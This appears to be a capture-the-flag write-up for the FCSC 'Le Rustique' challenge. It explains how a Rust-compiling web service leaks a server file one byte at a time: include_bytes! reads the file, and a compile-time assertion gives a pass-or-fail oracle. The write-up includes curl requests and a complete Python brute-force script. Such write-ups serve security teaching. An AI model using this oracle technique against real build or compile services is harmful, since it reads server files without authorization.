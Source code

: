 # Le Rustique

> On vous demande d'auditer cette solution de vérification syntaxique en Rust.
> 
> Lien : http://challenges2.france-cybersecurity-challenge.fr:6005/

Well ... if we can compile Rust, we'll first try to include some file at compile-time with the [`include_bytes!()` macro](https://doc.rust-lang.org/core/macro.include_bytes.html)

![First glance][first_glance.png "At first glance, we can compile anything."]

```
$ curl 'http://challenges2.france-cybersecurity-challenge.fr:6005/check' -H 'Content-Type: application/json' --data '{"content":"include_bytes!(\"/flag.txt\");"}' 
{"result":0}
curl 'http://challenges2.france-cybersecurity-challenge.fr:6005/check' -H 'Content-Type: application/json' --data '{"content":"ERROR"}' 
{"result":1}
```

This is a webapp that compiles Rust code and returns a boolean to indicate if compilation was successful or not.

We know `access to sensitive data + boolean output = blind retrieval` so we think about how to setup a blind attack so we can read the content of `flag.txt`. For this we need:

- read data (`include_bytes!` is fine)
- select one byte of data and compare it to a byte we control
- fail the compilation when the two bytes are not equal

As `include_bytes!()` macro does not return any compilation error, we know we can load some bytes from `/flag.txt`. Now, we have to find a way to make the compilation fail whenever we want, and only if two bytes aren't equal.

There's an `assert!()` macro which does exactly what we want **but** this is executed at run-time, it's of no use for us now. After a bit of research I came across a crate called `static_assertions` which ships with a `static_assert!()` macro, which is static, so it's executed at compile-time ! Problem : the crate is not loaded and we can't load-it with `extern crate`, it's probably not an installed crate.

Hopefully, the author of `static_assertions` crate wrote [a post](https://nikolaivazquez.com/posts/programming/rust-static-assertions/) that explains everything it does, with code examples.

One of those examples is:

```rust
macro_rules! const_assert {
    ($condition:expr) => {
        #[deny(const_err)]
        #[allow(dead_code)]
        const ASSERT: usize = 0 - !$condition as usize;
    }
}
```

This macro enables us to write:

```rust
const_assert!(b'a' == b'a');
const_assert!(b'a' == b'b'); # Compilation error
```

Now we only have to select a character of `/flag.txt` data and compare it to our charset (`FCSC{[0-9a-z]+}`). I wrote a Python script to do just that automatically.

```python
#!/usr/bin/env python3
import string
import requests

PAYLOAD = """
macro_rules! const_assert {
    ($condition:expr) => {
        #[deny(const_err)]
        #[allow(dead_code)]
        const ASSERT: usize = 0 - !$condition as usize;
    }
}

// Load flag bytes from /flag.txt
const KEY: &'static [u8] = include_bytes!("/flag.txt");

// Assert one byte equals one other byte we control
const_assert!(KEY[XXX] == b'YYY');
"""
CHARSET = string.digits + string.ascii_lowercase + "}"
PLAIN = "FCSC{"

url = 'http://challenges2.france-cybersecurity-challenge.fr:6005/check'
ua = requests.Session()

i = len(PLAIN)

while True:
    for c in CHARSET:
        r = ua.post(url, json={
            # XXX > index of the target char
            # YYY > character to compare the target char to
            "content": PAYLOAD.replace('XXX', str(i)).replace('YYY', c)
        })
        print("{}{}".format(PLAIN, c), end="\r")

        # If no compilation error
        if '0' in r.text:
            # we found a char
            PLAIN = PLAIN + c
            break
    
    if PLAIN[-1] == '}':
        print('\n[!] FINISHED.')
        break

    i = i + 1
```